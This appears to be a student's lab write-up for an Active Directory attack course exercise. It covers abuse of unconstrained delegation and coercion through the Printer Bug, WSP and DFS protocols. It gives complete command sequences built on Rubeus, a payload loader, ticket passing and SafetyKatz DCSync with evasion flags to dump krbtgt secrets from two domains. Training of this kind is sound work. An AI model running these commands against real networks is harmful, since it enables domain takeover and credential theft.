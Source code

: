```yaml
---
icon: vial
---
```


# 15 - Learning Object

## Tasks



1 - Find a server in the dcorp domain where Unconstrained Delegation is enabled

2 - Compromise the server and escalate to Domain Admin privileges

3 - Escalate to Enterprise Admins privileges by abusing Printer Bug

Flag 24 \[dcorp-appsrv] - Domain user who is a local admin on dcorp-appsrv 🚩



## Solutions

### 1 - Find a server in the dcorp domain where Unconstrained Delegation is enabled

Starting to find a server that has unconstrained delegation enabled:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerView.ps1
Get-DomainComputer -Unconstrained | select -ExpandProperty name
```



### 2 - Compromise the server and escalate to Domain Admin privileges

Remembering that the prerequisite for elevation using Unconstrained delegation is having admin access to the machine, we need to compromise a user which has local admin access on appsrv.

We extracted secrets of appadmin, srvadmin and websvc from dcorp-adminsrv. Let's check if anyone of them have local admin privileges on dcorp-appsrv.

First, we will try with appadmin. Run the below command from an elevated command prompt:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:appadmin /aes256:68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```





and Run the below commands in the new process:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local
```



\


We can use multiple methods now to copy Rubeus to dcorp-appsrv to abuse Printer Bug using Loader and winrs.

Run the below command from the process running appadmin:

```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-appsrv\C$\Users\Public\Loader.exe /Y
```



Run Rubeus in listener mode in the winrs session on dcorp-appsrv:

```
winrs -r:dcorp-appsrv cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.67
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /targetuser:DCORP-DC$ /interval:5 /nowrap
```

Use the Printer Bug for Coercion

On the student VM, use MS-RPRN to force authentication from dcorp-dc$

```powershell
C:\AD\Tools\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```



On the Rubeus listener, we can see the TGT of dcorp-dc$:

\


Copy the base64 encoded ticket and use it with Rubeus on student VM. Run the below command from an elevated shell as the SafetyKatz command that we will use for DCSync needs to be run from an elevated process:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args ptt /ticket:doIFx...
```









Now, we can run DCSync from this process:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```







Use the Windows Search Protocol (MS-WSP) for Coercion

We can also use Windows Search Protocol for abusing unconstrained delegation. Please note that the Windows Search Service is enabled by default on client machines but not on servers. For the lab, we have configured it on the domain controller (Traffic on TCP port 445 from student VM to dcorp-dc and dcorp-dc to dcorp-appsrv required).

Setup Rubeus in monitor mode exactly as we did for the Printer Bug. On the student VM, use the following command to force dcorp-dc to connect to dcorp-appsrv:

```
C:\AD\Tools\Loader.exe -path C:\AD\tools\WSPCoerce.exe -args DCORP-DC DCORP-APPSRV
```







Use the Distributed File System Protocol (MS-DFSNM) for Coercion

If the target has DFS Namespaces service running, we can use that too for coercion (Traffic on TCP port 445 from student VM to dcorp-dc and dcorp-dc to dcorp-appsrv required).

```
C:\AD\Tools\DFSCoerce-andrea.exe -t dcorp-dc -l dcorp-appsrv
```



```bash
```











```
```



### 3 - Escalate to Enterprise Admins privileges by abusing Printer Bug

To get Enterprise Admin privileges, we need to force authentication from mcorp-dc. Run the below command to listern for mcorp-dc$ tickets on dcorp-appsrv:

```powershell
winrs -r:dcorp-appsrv cmd
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /targetuser:MCORP-DC$ /interval:5 /nowrap
```









Use MS-RPRN on the student VM to trigger authentication from mcorp-dc to dcorp-appsrv

```
C:\AD\Tools\MS-RPRN.exe \\mcorp-dc.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```







On the Rubeus listener, we can see the TGT of mcorp-dc$:

\




As previously, copy the base64 encoded ticket and use it with Rubeus on student VM. Run the below command from an elevated shell as the SafetyKatz command that we will use for DCSync needs to be run from an elevated process:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args ptt /ticket:doIFx...
```





Now, we can run DCSync from this process:

\


```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```







We escalated to Enterprise Admins too!

### Flag 24 \[dcorp-appsrv] - Domain user who is a local admin on dcorp-appsrv 🚩















